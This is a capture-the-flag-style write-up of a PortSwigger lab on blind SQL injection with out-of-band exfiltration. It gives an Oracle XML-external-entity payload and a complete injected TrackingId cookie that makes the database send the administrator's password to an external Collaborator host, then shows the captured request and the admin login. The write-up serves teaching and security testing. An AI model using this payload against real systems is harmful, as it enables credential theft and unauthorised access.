





# Blind SQL Injection with Out-of-Band Data Exfiltration

## Objectives

The database contains a table named `users`, with columns named `username` and `password`. The objective is to exploit the blind SQL injection vulnerability to retrieve the administrator's password.

To solve the lab, log in as the administrator user.

## Background

This lab contains a blind SQL injection vulnerability in the application's tracking cookie.

The application uses the value of the `TrackingId` cookie in a SQL query. However, the query is executed asynchronously, meaning that it does not affect the application's response. As a result, techniques that rely on visible response differences or time delays may not be effective.

However, it is possible to trigger out-of-band (OAST) interactions with an external domain. By making the database perform an external DNS lookup or HTTP request, information can be extracted through the resulting interaction.

## Tools Used

- Burp Suite Professional
- Chrome
- Burp Collaborator

## Methodology

### Preparing the Request

I opened the application's homepage and forwarded the request to Burp Repeater so I could manipulate the `TrackingId` cookie.



I then checked PortSwigger's SQL injection cheat sheet to find a payload that could be used for out-of-band data exfiltration.



### Selecting the Oracle Payload

I decided to use the Oracle-specific payload based on the database interaction technique provided in the cheat sheet (but if this did not work, I would need to use another database-specific payload):

```sql
SELECT EXTRACTVALUE(
    XMLTYPE('<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
        <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;
    ]>'),
    '/l'
) FROM dual
```

The payload uses Oracle's `EXTRACTVALUE()` and `XMLTYPE()` functions to process XML containing an external entity reference. The external entity causes the database to make an outbound request to a domain controlled by Burp Collaborator.

For the query itself, the lab objective identified the `users` table and its `username` and `password` columns. I therefore replaced the placeholder with a query to retrieve the administrator's password:

```sql
SELECT password FROM users WHERE username='administrator'
```

I also copied my Burp Collaborator subdomain and incorporated both the query and the Collaborator domain into the payload.

The final request looked like this:

```sql
TrackingId=iKgNxBhqBtXNhFUT'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.hm7uzmxgwiyccga4qpjhud556wcn0do2.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

I then sent the request from Repeater.



### Retrieving the Exfiltrated Data

After sending the request, I switched to the Burp Collaborator tab and inspected the interactions received.

I selected the HTTP interaction and opened the **Request to Collaborator** tab to inspect the raw request:

```http
GET / HTTP/1.0

Host: wmbsjpm7pildv21nhheq.hm7uzmxgwiyccga4qpjhud556wcn0do2.oastify.com

Content-Type: text/plain; charset=utf-8
```



The important part was the `Host` header. It contained a subdomain beginning with:

```text
wmbsjpm7pildv21nhheq
```

This value represented the data extracted from the database and incorporated into the external domain name.

The interaction confirmed that the SQL injection payload triggered an outbound HTTP request to my Burp Collaborator domain. Since the administrator's password was embedded in the subdomain, I could retrieve it by inspecting the incoming request.

The extracted password was:

```text
wmbsjpm7pildv21nhheq
```

### Logging In as Administrator

With the password retrieved, I returned to the application's login page and attempted to authenticate using the administrator's credentials.



The login was successful, confirming that the extracted password was correct and completing the lab.

## Results

- Identified an out-of-band SQL injection vulnerability in the `TrackingId` cookie.
- Used an Oracle-specific XML external entity technique to trigger an outbound interaction.
- Retrieved the administrator's password through a Burp Collaborator interaction.
- Extracted the password from the subdomain included in the incoming HTTP request.
- Successfully authenticated as the administrator and completed the lab.

## Reflection

This lab demonstrated how information can be extracted from a blind SQL injection vulnerability even when the application does not return query results or respond differently to errors and delays.

Unlike the previous techniques, which relied on visible response messages or response times, this approach used an external interaction as the communication channel. By embedding the result of a database query into a subdomain, I was able to make the database disclose the administrator's password through an outbound request.

Another important takeaway was the value of Burp Collaborator when testing for out-of-band vulnerabilities. It provides a way to detect and inspect interactions that would otherwise be invisible from the application's normal response.
